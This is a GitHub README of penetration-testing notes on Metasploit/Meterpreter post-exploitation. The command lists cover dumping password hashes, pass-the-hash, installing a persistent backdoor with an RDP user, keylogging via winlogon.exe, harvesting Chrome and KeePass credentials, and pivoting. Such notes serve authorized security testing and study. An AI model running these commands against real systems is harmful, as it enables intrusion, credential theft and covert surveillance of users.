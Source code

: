 # pen-leviathan
pentesting notes

## Priv Escalation
- If we grab hashes for a system, we can use `mimikatz` to grab them from memory. This needs to be done in a 64 bit process so that meterpreter can load the module without problem.
- Run `sysinfo` and check Meterpreter value. (x86/win32 aint gonna cut it)
- To find a process to migrate to, run `ps -A x86_64 -s` when you are a `system`. This will display available compatible processes to migrate to.

## Grab hashes
- `run post/windows/gather/smart_hashdump`
- Now you can run `creds` or `loot` in the msf console to see the data as well.
- use `exploit/windows/smb/psexec`
- set usersname and then the password hash

 ## Backdoor Installation
 - For windows systems, once you have a meterpreter session, `run persistence`
 - `run getgui -e -u atk_user -p atk_password`
 - RDP Service is now started and user 'atk_user' with password 'atk_password' can now rdp into the machine.

## Pillaging
Commands inside of meterpreter for pillaging data
- sysinfo
-- if server, for example, we would know to search and see what type of services are running (in shell this would be `wmic service where started=true get catption`
- getuid

Meterpreter has a good set of gather utilities under:
- run post/windows/gather OR
- run post/linux/gather
These can also be used outsie of the meterpreter session. You just need to use the `use` command, configure its options with `set` and then execute the module with `run`

### Windows
- run post/windows/gather/enum_domains

If the machine is part of a domain, we can enumerate accounts and other information in the default active domain
- run post/windows/gather/enum_ad_users
- In a shell, run `net localgroup` to list groups and `net localgroup [GROUPNAME]` to list members of a specific group
To figure out what resources are shared:
- run enum_shares (same as `net share` in a shell)

The two main scripts to use against windows hosts are:
- scraper - harvests system info including network shares, registry hives, and password hashes
- winenum - retrieves all kinds of info about the system including env vars, networking interfaces, routing, user accounts, and much more
- Both of the above are invoked using `run winenum` or `run scraper`. Files are saved locally.

Keyloggers:
These only record the keys of the process the session has been migrated to. So if you want info when a user logs into their computer, you need to be migrated to the `winlogon.exe` process.
- `run keylogrecorder` <- there is a `-c` option that allows you to automate the migration into the correct process.
- `run post/windows/capture/keylog_recorder`

Searching for files:
- From a meterpreter session: `search -d C:\\Users\\els\\ -f *.kdbx` <- password database file extension

Downloading files:
- use the download command.

Gather Credentials:
- `run post/windows/gather/credentials/`
- In the parent directory, there are useful scripts as well. For example the `enum_chrome` script can be used to gather credentials stored in Google Chrome

List Applications:
- `run post/windows/gather/enum_applications`

Other:
- `run post/windows/gather/credentials/credential_collector`

### Linux
https://n0where.net/linux-post-exploitation


# Mapping the Internal Network

### Meterpreter Commands
Basics:
- route
- arp (good way to find new ip addresses in the network)
- netstat (will show all the host network connections as well as the processes assocatied with them)
- arp_scanner
- ping_sweep (run outside of meterpreter, but has an option where it is set to a specific session number)
- netenum (research more)

Pivoting:
Add a new route to the network to allow for a single host to scan their own internal network.

- `route add 10.10.10.0/24 255.255.255.0 2` -> 2 is the session we want to route things through.
- `run autoroute -s 10.10.10.0/24`
- `route flush`

### Windows Commands
- route print

### Linux Commands
- route -v 

